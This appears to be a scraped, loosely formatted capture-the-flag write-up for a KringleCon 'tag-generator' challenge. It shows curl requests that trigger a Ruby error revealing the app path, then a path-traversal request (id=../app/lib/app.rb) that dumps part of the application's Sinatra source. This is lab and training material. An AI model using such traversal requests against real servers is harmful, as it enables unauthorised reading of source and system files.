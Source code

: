 

dylan@DESKTOP:~$ curl -H "Content-Type: text" https://tag-generator.kringlecastle.com/image?id=
<h1>Something went wrong!</h1>

<p>Error in /app/lib/app.rb: Is a directory @ io_fread - /tmp/</p>


https://tag-generator.kringlecastle.com/upload




WINRAR

curl -H "Content-Type: text" https://tag-generator.kringlecastle.com/image?id=../app/lib/app.rb

encoding: ASCII-8BIT

TMP_FOLDER = '/tmp'
FINAL_FOLDER = '/tmp'

Don't put the uploads in the application folder
Dir.chdir TMP_FOLDER

require 'rubygems'

require 'json'
require 'sinatra'
require 'sinatra/base'
require 'singlogger'
require 'securerandom'

require 'zip'
require 'sinatra/cookies'
require 'cgi'

require 'digest/sha1'

LOGGER = ::SingLogger.instance()

MAX_SIZE = 1024**2*5 # 5mb

#Manually escaping is annoying, but Sinatra is lightweight and doesn't have
#stuff like this built in :(
def h(html)
  CGI.escapeHTML html
end

def handle_zip(filename)
  LOGGER.debug("Processing #{ filename } as a zip")
  out_files = []

  Zip::File.open(filename) do |zip_file|
    #Handle entries one by one
    zip_file.each do |entry|
      LOGGER.debug("Extracting #{entry.name}")

      if entry.size > MAX_SIZE
        raise 'File too large when extracted'
      end
